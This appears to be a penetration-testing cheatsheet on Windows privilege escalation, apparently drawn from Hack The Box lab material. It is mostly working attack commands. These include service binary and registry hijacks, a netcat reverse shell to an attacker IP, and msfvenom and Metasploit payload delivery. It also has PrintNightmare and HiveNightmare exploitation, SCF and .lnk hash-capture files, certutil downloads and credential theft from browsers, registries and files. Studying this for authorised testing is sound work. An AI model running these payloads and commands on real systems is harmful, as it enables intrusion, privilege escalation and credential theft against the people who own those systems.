Using [icacls](https://ss64.com/nt/icacls.html) we can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\Users` groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

```powershell
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

### Replacing Service Binary

```cmd
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

### Checking Permissions with AccessChk

[AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to enumerate permissions on the service. The flags we use, in order, are `-q` (omit banner), `-u` (suppress errors), `-v` (verbose), `-c` (specify name of a Windows service), and `-w` (show only objects that have write access).

```cmd
accesschk.exe /accepteula -quvcw WindscribeService
```

### Changing the Service Binary Path

```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

```cmd
sc stop WindscribeService
```

```cmd
sc start WindscribeService
```

## Weak Service Permissions - Cleanup

### Reverting the Binary Path

```cmd
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"

[SC] ChangeServiceConfig SUCCESS
```

### Starting the Service Again

If all goes to plan, we can start the service again without an issue.

```cmd
C:\htb> sc start WindScribeService
 
SERVICE_NAME: WindScribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1716
        FLAGS              :
```

### Verifying Service is Running

Querying the service will show it running again as intended.

```cmd
sc query WindScribeService
```

## Unquoted Service Path

Searching for Unquoted Service Paths

```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

## Permissive Registry ACLs

### Checking for Weak Service ACLs in Registry

```cmd
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

### Changing ImagePath with PowerShell

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

## Modifiable Registry Autorun Binary

### Check Startup Programs

We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

# Kernel Exploits

## Notable Vulnerabilities

1. **MS08-067**
   - **Type:** Remote Code Execution
   - **Affected Systems:** Windows Server 2000, 2003, 2008; Windows XP, Vista
   - **Description:** Exploits RPC request handling in the "Server" service, allowing SYSTEM-level code execution. Often used with port forwarding to bypass firewall restrictions on port 445.
   - **Tools:** Standalone and Metasploit versions available.

2. **MS17-010 (EternalBlue)**
   - **Type:** Remote Code Execution
   - **Affected Systems:** SMBv1 protocol
   - **Description:** Exploits SMB protocol mishandling, leading to SYSTEM-level code execution. Can be used for local privilege escalation if port 445 is blocked.
   - **Tools:** Metasploit Framework and standalone scripts.

3. **ALPC Task Scheduler 0-Day**
   - **Type:** Local Privilege Escalation
   - **Description:** Uses ALPC endpoint method to manipulate DACLs in .job files, allowing SYSTEM-level access via the Spooler service.
https://blog.grimm-co.com/2020/05/alpc-task-scheduler-0-day.html

4. **CVE-2021-36934 (HiveNightmare/SeriousSam)**
   - **Type:** Local Privilege Escalation
   - **Affected Systems:** Windows 10
   - **Description:** Allows any user to read sensitive registry hives (SAM, SYSTEM, SECURITY) and extract password hashes.
   - **Tools:** [PoC exploit](https://github.com/GossiTheDog/HiveNightmare) and SecretsDump.py for offline processing.

Checking Permissions on the SAM File

```cmd
icacls c:\Windows\System32\config\SAM
```

```powershell
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe
```

```shell
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```

5. **CVE-2021-1675/CVE-2021-34527 (PrintNightmare)**

- **Type:** Remote Code Execution
- **Affected Systems:** All supported Windows versions
- **Description:** Exploits a flaw in RpcAddPrinterDriver, allowing any authenticated user to install print drivers without SeLoadDriverPrivilege, leading to SYSTEM-level remote code execution.
- **Impact:** Affects Domain Controllers, Windows 7, 10, and often Windows servers due to the default running of the Print Spooler service.
- **Mitigation:** Microsoft released a second patch in July 2021; ensure specific registry settings are set to 0 or not defined.
- **Exploits:**
  - [PoC by @cube0x0](https://github.com/cube0x0/CVE-2021-1675) for executing malicious DLLs remotely or locally.
  - C# and PowerShell implementations available.
  - [PowerShell script](https://github.com/calebstewart/CVE-2021-1675) can add a local admin user or execute a custom DLL for a reverse shell.

Checking for Spooler Service

```powershell
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

Adding Local Admin with PrintNightmare PowerShell PoC

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

Confirming New Admin User

```powershell
net user hacker
```

## Examining Installed Updates

To identify missing patches, examine installed updates using the following commands:

```powershell
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```

Viewing Installed Updates with WMI

```shell
wmic qfe list brief
```

## Exploiting CVE-2020-0668

Checking Current User Privileges

```shell
whoami /priv
```

Building the Exploit

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. Building the solution should create the following files.

Compile the following files using Visual Studio:

- `CVE-2020-0668.exe`
- `CVE-2020-0668.exe.config`
- `CVE-2020-0668.pdb`
- `NtApiDotNet.dll`
- `NtApiDotNet.xml`

At this point, we can use the exploit to create a file of our choosing in a protected folder such as C:\Windows\System32. We aren't able to overwrite any protected Windows files. This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.

We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The (non-system protected) binary for this service is located below.

- `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

Checking Permissions on Binary

```shell
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Generating Malicious Binary

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

Hosting the Malicious Binary

```bash
python3 -m http.server 8080
```

Downloading the Malicious Binary

```powershell
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

> [!NOTE]
> For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.
> 
> We need to do this because running the exploit corrupts the malicious version of `maintenanceservice.exe` that is moved to (our copy in `c:\Users\htb-student\Desktop` that we are targeting) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` which we will need to account for later. If we attempt to utilize the copied version, we will receive a `system error 216` because the .exe file is no longer a valid binary.

Running the Exploit

```shell
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Checking Permissions of New File

```shell
icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```

Replacing File with Malicious Binary

```shell
copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

## Metasploit Resource Script

Save the following commands to a file named `handler.rc`:

```plaintext
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

Launching Metasploit with Resource Script

```bash
sudo msfconsole -r handler.rc
```

Starting the Service

```powershell
net start MozillaMaintenance
```

# Vulnerable Services

Enumerating Installed Programs

```cmd
wmic product get name
```

Search for vulnerable software versions.

Here's a more detailed hacking cheatsheet on DLL Injection, including commands, code examples, and tool links:

# DLL Injection

DLL Injection is a technique used to insert code into a running process by loading a Dynamic Link Library (DLL). This allows the injected code to execute within the context of the target process, potentially altering its behavior or accessing its resources. While it has legitimate uses, such as hot patching, it is also exploited by attackers to evade security measures.

## Methods

### LoadLibrary
- **Description**: Utilizes the `LoadLibrary` API to load a DLL into the target process's address space.
- **Legitimate Use Example**:
  ```c
  #include <windows.h>
  #include <stdio.h>

  int main() {
      HMODULE hModule = LoadLibrary("example.dll");
      if (hModule == NULL) {
          printf("Failed to load example.dll\n");
          return -1;
      }
      printf("Successfully loaded example.dll\n");
      return 0;
  }
  ```

### Manual Mapping
- **Description**: An advanced method that manually loads a DLL into a process's memory, resolving imports and relocations without using `LoadLibrary`.
- **Steps**:
  1. Load the DLL as raw data into the injecting process.
  2. Map the DLL sections into the target process.
  3. Inject shellcode to execute the DLL, handling relocations and imports manually.

### Reflective DLL Injection
- **Description**: Uses reflective programming to load a library from memory into a host process. The library implements a minimal PE loader.
- **GitHub Resource**: [Stephen Fewer's Reflective DLL Injection](https://github.com/stephenfewer/ReflectiveDLLInjection)
- **Process**:
  1. Write the library into the target process's address space.
  2. Transfer execution to the library's `ReflectiveLoader` function.
  3. The loader calculates its own memory location, resolves imports, and relocates the image.
  4. Calls the library's entry point function, `DllMain`.

### DLL Hijacking
- **Description**: Exploits the DLL search order to load malicious DLLs when an application doesn't specify the full path.
- **Safe DLL Search Mode**:
  - **Enable/Disable**:
    1. Open `Regedit`.
    2. Navigate to `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager`.
    3. Modify `SafeDllSearchMode` value (1 to enable, 0 to disable).
- **Tools**:
  - [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer): View running processes and loaded DLLs.
  - PE Explorer: Examine PE files and their imported DLLs.
- **Example Process**:
  1. Identify a DLL the target application is attempting to load but cannot find.
  2. Use tools like Process Explorer to monitor DLL loading activities.
  3. Create a malicious DLL with the same name as the missing one.
  4. Place the malicious DLL in a directory that is searched before the legitimate one.

- **Code Example for Proxying**:
  ```c
  // tamper.c
  #include <stdio.h>
  #include <Windows.h>

  #ifdef _WIN32
  #define DLL_EXPORT __declspec(dllexport)
  #else
  #define DLL_EXPORT
  #endif

  typedef int (*AddFunc)(int, int);

  DLL_EXPORT int Add(int a, int b) {
      HMODULE originalLibrary = LoadLibraryA("library.o.dll");
      if (originalLibrary != NULL) {
          AddFunc originalAdd = (AddFunc)GetProcAddress(originalLibrary, "Add");
          if (originalAdd != NULL) {
              printf("============ HIJACKED ============\n");
              int result = originalAdd(a, b);
              printf("= Adding 1 to the sum to be evil\n");
              result += 1;
              printf("============ RETURN ============\n");
              return result;
          }
      }
      return -1;
  }
  ```

- **Invalid Libraries**:
  - **Description**: Replace a valid library the program is attempting to load but cannot find with a crafted library.
  - **Code Example**:
    ```c
    #include <stdio.h>
    #include <Windows.h>

    BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
        switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            printf("Hijacked... Oops...\n");
            break;
        case DLL_PROCESS_DETACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
            break;
        }
        return TRUE;
    }
    ```

## Tools and Resources
- **Process Explorer**: Part of Microsoft's Sysinternals suite, provides detailed information on running processes and their loaded DLLs.
- **PE Explorer**: A tool to open and examine PE files, revealing imported DLLs and functions.
- **Procmon (Process Monitor)**: Useful for tracking DLL loading and identifying missing DLLs.

# Credential Hunting

Credentials are crucial for privilege escalation and gaining access to systems. They can be found in various locations on a system, often stored insecurely.

## Application Configuration Files

- **Search for Passwords in Config Files**: Applications may store passwords in cleartext within configuration files. Use `findstr` to locate these files.
  ```powershell
  findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
  ```
  - **Sensitive IIS Information**: Check `web.config` files for credentials, typically found at `C:\inetpub\wwwroot\web.config`.

## Dictionary Files

- **Chrome Dictionary Files**: Users may add passwords to dictionary files to avoid spellcheck underlines.
  ```powershell
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
  ```

## Unattended Installation Files

- **Unattend.xml**: These files may contain plaintext or base64 encoded passwords.

```cmd
dir Windows\Panther\unattend.xml
```

  ```xml
  <AutoLogon>
      <Password>
          <Value>local_4dmin_p@ss</Value>
          <PlainText>true</PlainText>
      </Password>
  </AutoLogon>
  ```

## PowerShell History File

- **Location**: `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.
- **Read PowerShell History**:
  ```powershell
gc (Get-PSReadLineOption).HistorySavePath
  ```
- **Retrieve All Accessible History Files**:
  ```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
  ```

## PowerShell Credentials

- **Decrypting PowerShell Credentials**: Credentials stored using DPAPI can be decrypted if executed in the same user context.
  ```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password
  ```
# Other Files

## Tools and Resources
- **Snaffler**: Use [Snaffler](https://github.com/SnaffCon/Snaffler) to crawl network share drives for interesting file extensions like `.kdbx`, `.vmdk`, `.vdhx`, `.ppk`, etc.

## Manually Searching the File System for Credentials

We can search the file system or share drive(s) manually using the following commands from [this cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/).
### Search File Contents for Strings

- **Example 1**:
  ```cmd
  cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
  ```

- **Example 2**:
  ```cmd
  findstr /si password *.xml *.ini *.txt *.config
  ```

- **Example 3**:
  ```cmd
  findstr /spin "password" *.*
  ```

- **Using PowerShell**:
  ```powershell
select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password
  ```

### Search for File Extensions

- **Example 1**:
  ```cmd
  dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
  ```

- **Example 2**:
  ```cmd
  where /R C:\ *.config
  ```

- **Using PowerShell**:
  ```powershell
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
  ```

## Sticky Notes Passwords

- **Location**: `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`
- **Viewing Sticky Notes Data**:
  - Use [DB Browser for SQLite](https://sqlitebrowser.org/dl/) to view the `Text` column in the `Note` table.
  - **Using PowerShell** with [PSSQLite module](https://github.com/RamblingCookieMonster/PSSQLite):
    ```powershell
  Set-ExecutionPolicy Bypass -Scope Process
  Import-Module .\PSSQLite.psd1
  $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
  Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
    ```

- **Using `strings` Command**:
  ```shell
  strings plum.sqlite-wal
  ```

## Other Files of Interest

- **Potential Credential Files**:
  ```shell
  %SYSTEMDRIVE%\pagefile.sys
  %WINDIR%\debug\NetSetup.log
  %WINDIR%\repair\sam
  %WINDIR%\repair\system
  %WINDIR%\repair\software, %WINDIR%\repair\security
  %WINDIR%\iis6.log
  %WINDIR%\system32\config\AppEvent.Evt
  %WINDIR%\system32\config\SecEvent.Evt
  %WINDIR%\system32\config\default.sav
  %WINDIR%\system32\config\security.sav
  %WINDIR%\system32\config\software.sav
  %WINDIR%\system32\config\system.sav
  %WINDIR%\system32\CCM\logs\*.log
  %USERPROFILE%\ntuser.dat
  %USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
  %WINDIR%\System32\drivers\etc\hosts
  C:\ProgramData\Configs\*
  C:\Program Files\Windows PowerShell\*
  ```

Understanding how to manually search for these files is crucial, as automated scripts may not cover all potential files of interest.

# Further Credential Theft

## Cmdkey Saved Credentials

- **Description**: Use `cmdkey` to manage stored credentials for remote connections.
- **Commands**:
  - List saved credentials: `cmdkey /list`
  - Run commands as another user: `runas /savecred /user:username "COMMAND HERE"`
- **Tools**: [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey)

## Browser Credentials

- **Description**: Retrieve saved credentials from Google Chrome using SharpChrome.
- **Commands**:
  - Retrieve Chrome logins: `.\SharpChrome.exe logins /unprotect`
- **Tools**: [SharpChrome](https://github.com/GhostPack/SharpDPAPI)

## Password Managers

- **Description**: Access password managers like KeePass to extract and crack password hashes.
- **Commands**:
  - Extract KeePass hash: `python2.7 keepass2john.py file.kdbx`
  - Crack hash with Hashcat: `hashcat -m 13400 hashfile wordlist`
- **Tools**: [keepass2john](https://gist.github.com/HarmJ0y), [Hashcat](https://github.com/hashcat), [John the Ripper](https://github.com/openwall/john)

## Email

- **Description**: Search emails for credentials using MailSniper.
- **Tools**: [MailSniper](https://github.com/dafthack/MailSniper)

## More Fun with Credentials

- **Description**: Use LaZagne to retrieve credentials from various software.
- **Commands**:
  - View help menu: `.\lazagne.exe -h`
  - Run all modules: `.\lazagne.exe all`
- **Tools**: [LaZagne](https://github.com/AlessandroZ/LaZagne)

## Even More Fun with Credentials

- **Description**: Extract saved session credentials using SessionGopher.
- **Commands**:
  - Run SessionGopher: `Invoke-SessionGopher -Target TARGET`
- **Tools**: [SessionGopher](https://github.com/Arvanaghi/SessionGopher)

## Clear-Text Password Storage in the Registry

- **Description**: Enumerate registry for clear-text passwords.
- **Commands**:
  - Enumerate Autologon: `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`
  - Enumerate PuTTY sessions: `reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions`
- **Tools**: [Introduction to Windows Command Line](https://academy.hackthebox.com/module/167/section/1623)

## Wifi Passwords

- **Description**: Retrieve saved wireless network passwords.
- **Commands**:
  - List wireless profiles: `netsh wlan show profile`
  - Show wireless key: `netsh wlan show profile network_name key=clear`

# Citrix Breakout

## Overview
Organizations use virtualization platforms like Citrix to provide remote access while implementing "lock-down" measures to enhance security. Despite these restrictions, threat actors can potentially "break-out" of these environments.

## Basic Methodology for Break-out
1. Gain access to a `Dialog Box`.
2. Exploit the Dialog Box for `command execution`.
3. `Escalate privileges` for higher access.

## Bypassing Path Restrictions
- **Objective**: Access restricted directories.
- **Method**: Use Windows dialog boxes (e.g., from MS Paint) to enter paths directly.
- **Example**: Enter `\\127.0.0.1\c$\users\pmorgan` in the dialog box to access directories.
- **Tools**: MS Paint, Notepad, Wordpad.

## Accessing SMB Share from Restricted Environment
- **Objective**: Transfer files despite restrictions.
- **Method**: Use UNC paths in dialog boxes to access SMB shares.
- **Command**: Start SMB server with `smbserver.py`.
- **Example**: Access share with `\\10.13.38.95\share` in Paint's dialog box.

## Alternate Explorer
- **Objective**: Bypass File Explorer restrictions.
- **Tools**: Use `Q-Dir` or `Explorer++` to navigate restricted directories.
- **Link**: [Explorer++](https://explorerplusplus.com/)

## Alternate Registry Editors
- **Objective**: Edit registry despite restrictions.
- **Tools**: Use alternative editors like [Simpleregedit](https://sourceforge.net/projects/simpregedit/), [Uberregedit](https://sourceforge.net/projects/uberregedit/), [SmallRegistryEditor](https://sourceforge.net/projects/sre/).

## Modify Existing Shortcut File
- **Objective**: Gain access by modifying shortcuts.
- **Steps**:
  1. Right-click shortcut, select `Properties`.
  2. Modify `Target` field to desired executable.
  3. Execute shortcut to spawn cmd.

## Script Execution
- **Objective**: Execute scripts to bypass restrictions.
- **Method**: Create and run scripts like `.bat` files.
- **Example**: Create `evil.bat` with `cmd` command to open Command Prompt.

## Escalating Privileges
- **Objective**: Identify and exploit system vulnerabilities.
- **Tools**: Use [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1).
- **Example**: Use `PowerUp.ps1` to create `UserAdd.msi` for privilege escalation.

## Bypassing UAC
- **Objective**: Overcome User Account Control restrictions.
- **Method**: Use UAC bypass scripts.
- **Example**: Import and execute `Bypass-UAC.ps1` with `Bypass-UAC -Method UacMethodSysprep`.

# Interacting with Users

## Overview
Users can be a weak link in security. Techniques to exploit this include capturing credentials through network sniffing or placing malicious files on shared drives to capture user password hashes.

## Traffic Capture
- **Objective**: Capture network traffic to obtain credentials.
- **Tools**: `Wireshark`, `tcpdump`, [net-creds](https://github.com/DanMcInerney/net-creds).
- **Example**: Capture cleartext FTP credentials using Wireshark.
- **Command**: Run `tcpdump` or `Wireshark` to monitor traffic.

## Process Command Lines
- **Objective**: Monitor command lines for credentials.
- **Script**: Capture process command lines every two seconds and compare for differences.
- **Example**: Use PowerShell script to reveal passwords passed in command lines.

```powershell
while($true) {
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```

## Vulnerable Services
- **Objective**: Exploit vulnerable applications for privilege escalation.
- **Example**: [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) in Docker Desktop allows writing malicious executables for privilege escalation.

## SCF on a File Share
- **Objective**: Capture NTLMv2 password hashes using SCF files.
- **Tools**: [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh).
- **Example**: Create a malicious SCF file to capture hashes when accessed.

```shell
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

- **Command**: Start Responder to capture hashes.

```shell
sudo responder -wrf -v -I tun0
```

## Capturing Hashes with a Malicious .lnk File
- **Objective**: Use .lnk files to capture hashes on Server 2019.
- **Tools**: [Lnkbomb](https://github.com/dievus/lnkbomb).
- **Example**: Generate a malicious .lnk file using PowerShell.

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

# Miscellaneous Techniques
## Living Off The Land Binaries and Scripts (LOLBAS)
- **LOLBAS Project**: Utilizes Microsoft-signed binaries, scripts, and libraries for unexpected functionalities like code execution, file transfers, and UAC bypass.
- **Certutil.exe**: 
  - **File Transfer**: `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`
  - **Encoding**: `certutil -encode file1 encodedfile`
  - **Decoding**: `certutil -decode encodedfile file2`
- **Rundll32.exe**: Executes DLL files, potentially for reverse shells.

## Always Install Elevated
- **Policy Setting**: Enables installation with elevated privileges via Local Group Policy.
- **Enumeration**: 
  - `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
  - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
- **Exploitation**: Create a malicious MSI package with `msfvenom` and execute it to gain SYSTEM privileges.
  - **Command**: `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`
  - **Listener**: `nc -lnvp 9443`

## CVE-2019-1388
- **Vulnerability**: Exploits Windows Certificate Dialog to run a browser as SYSTEM.
- **Exploitation Steps**:
  - Run `hhupd.exe` as administrator.
  - Click on certificate hyperlink to open a browser as SYSTEM.
  - Use `View page source` to launch `cmd.exe` as SYSTEM.

## Scheduled Tasks
- **Enumeration**: 
  - `schtasks /query /fo LIST /v`
  - `Get-ScheduledTask | select TaskName,State`
- **Exploitation**: Look for writable directories like `C:\Scripts` to modify scripts executed by scheduled tasks.

## User/Computer Description Field
- **Local User Enumeration**: `Get-LocalUser`
- **Computer Description**: `Get-WmiObject -Class Win32_OperatingSystem | select Description`

## Mount VHDX/VMDK
- **File Types**: `.vhd`, `.vhdx`, `.vmdk` for virtual hard disks.
- **Mounting on Linux**:
  - VMDK: `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk`
  - VHD/VHDX: `guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`
- **Windows Mounting**: Use right-click options or PowerShell cmdlet `Mount-VHD`.
- **Hash Retrieval**: Use `secretsdump.py` to extract password hashes from registry hives.

# Windows Server

For an older OS like Windows Server 2008, we can use an enumeration script like [Sherlock](https://github.com/rasta-mouse/Sherlock) to look for missing patches. We can also use something like [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which takes the results of the `systeminfo` command as an input, and compares the patch level of the host against the Microsoft vulnerability database to detect potential missing patches on the target. If an exploit exists in the Metasploit framework for the given missing patch, the tool will suggest it. Other enumeration scripts can assist us with this, or we can even enumerate the patch level manually and perform our own research. This may be necessary if there are limitations in loading tools on the target host or saving command output.

## Enumeration and Exploitation

### Querying Current Patch Level
- **WMI Command**: `wmic qfe` to list installed hotfixes and identify missing patches.

### Running Sherlock
- **Sherlock Script**: Used to identify missing patches and vulnerabilities.
  - **Command**: 
    ```powershell
    Set-ExecutionPolicy bypass -Scope process
    Import-Module .\Sherlock.ps1
    Find-AllVulns
    ```

## Obtaining a Meterpreter Shell
- **Metasploit smb_delivery Module**: Used to deliver a Meterpreter reverse shell.
  - **Setup**:
    ```shell
    use exploit/windows/smb/smb_delivery
    set SRVHOST 10.10.14.3
    set LHOST 10.10.14.3
    set LPORT 4444
    exploit
    ```
  - **Execution on Target**: `rundll32.exe \\10.10.14.3\lEUZam\test.dll,0`

## Privilege Escalation
- **MS10-092 Exploit**: Use the Task Scheduler XML Privilege Escalation vulnerability.
  - **Setup**:
    ```shell
    use exploit/windows/local/ms10_092_schelevator
    set SESSION 1
    set LHOST 10.10.14.3
    set LPORT 4443
    exploit
    ```
  - **Migration to 64-bit Process**: Ensure the Meterpreter session is running in a 64-bit process for compatibility.

### Receiving Elevated Reverse Shell
- **Successful Exploit**: Results in a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges, allowing for further post-exploitation activities.

# Windows Desktop

## Enumeration and Exploitation

### Install Python Dependencies (Local VM)
- **Dependencies for Windows-Exploit-Suggester**:
  ```shell
  sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
  sudo tar -xf setuptools-2.0.tar.gz
  cd setuptools-2.0/
  sudo python2.7 setup.py install

  sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
  sudo tar -xf xlrd-1.0.0.tar.gz
  cd xlrd-1.0.0/
  sudo python2.7 setup.py install
  ```

### Gathering Systeminfo Command Output
- **Command**: `systeminfo` to capture system details for analysis.

### Updating the Local Microsoft Vulnerability Database
- **Command**: `sudo python2.7 windows-exploit-suggester.py --update` to update the vulnerability database.

### Running Windows Exploit Suggester
- **Command**: 
  ```shell
  python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt
  ```
  - Identifies potential privilege escalation vulnerabilities.

### Exploiting MS16-032 with PowerShell PoC
- **PowerShell Exploit**: Use a PowerShell script to exploit MS16-032 for privilege escalation.
  - **Commands**:
    ```powershell
    Set-ExecutionPolicy bypass -scope process
    Import-Module .\Invoke-MS16-032.ps1
    Invoke-MS16-032
    ```

### Spawning a SYSTEM Console
- **Result**: Successful exploitation results in a SYSTEM-level command prompt.
  - **Command**: `whoami` confirms elevated privileges as `nt authority\system`.


